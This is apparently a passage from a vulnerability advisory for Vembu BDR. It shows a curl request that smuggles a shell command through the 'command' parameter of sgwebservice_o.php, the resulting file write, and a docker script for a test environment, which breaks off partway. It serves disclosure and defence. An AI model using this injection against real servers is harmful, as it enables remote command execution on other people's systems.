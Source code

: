 ```yaml
        "discovery": "EXTERNAL"
    }
}
---
```


## How to reproduce
Step 1:Start up a docker environment (see below)

Step 2: In a different terminal run the following command:
```bash
> $ curl 'http://127.0.0.1:6060/sgwebservice_o.php?Action=StoreSpecialFolder&command=echo%20hacked%20%3E%2Ftmp%2Fdivd_was_here.txt&tempFile=/tmp'
 
<storegrid><saved messsage='Files filtered and cached successfully.Now You can continue your schedule..' error='0'></saved></storegrid>$
```

Step 3: validate that a file was written in /tmp:
```bash

$ docker exec VembuBDR4201 /bin/bash -c "ls -l /tmp;echo ---;cat /tmp/divd_was_here.txt;echo ---"
total 16
-rw-r--r-- 1 www-data www-data    7 Feb 11 15:00 divd_was_here.txt
drwxr-xr-x 1 root     root     4096 Feb 11 14:52 hsperfdata_root
drwxr-xr-x 1 root     root     4096 Feb 11 14:52 vmware
drwx------ 2 root     root     4096 Jun 12  2020 vmware-root
---
hacked
---
$
```


## Impact
This vulnerability allows an attacker to execute an arbitrary (windows/linux) shell command in the context of the httpd process.


## About the docker test environment.
In order to set up the docker test environment, we used the following script:
```bash
#!/bin/bash
 
# Network
if [[ $(docker network ls |grep vembu-netowrk |wc -l ) -lt 1 ]]; then
  docker network create --subnet=172.18.0.0/16 vembu-network
fi
 
# Start Database container
mkdir DB
while [[ $(docker ps -a |grep VembuDatabase|wc -l) -ge 1 ]]; do
  docker kill VembuDatabase
  docker rm VembuDatabase
  sleep 1
done
docker run --name VembuDatabase --network vembu-network --ip 172.18.0.2 -p 5432:5432 -d -e POSTGRES_PASSWORD=admin -e POSTGRES_USER=postgres -e POSTGRES_DB=SGDatabase -v  $PWD/DB:/vembu vembubdr/bdr-latest:psql-latest
 
# Wait for database port to open
echo -c "Waiting for database to become available..."
while ! timeout 1 bash -c "echo > /dev/tcp/localhost/5432" ; do 
```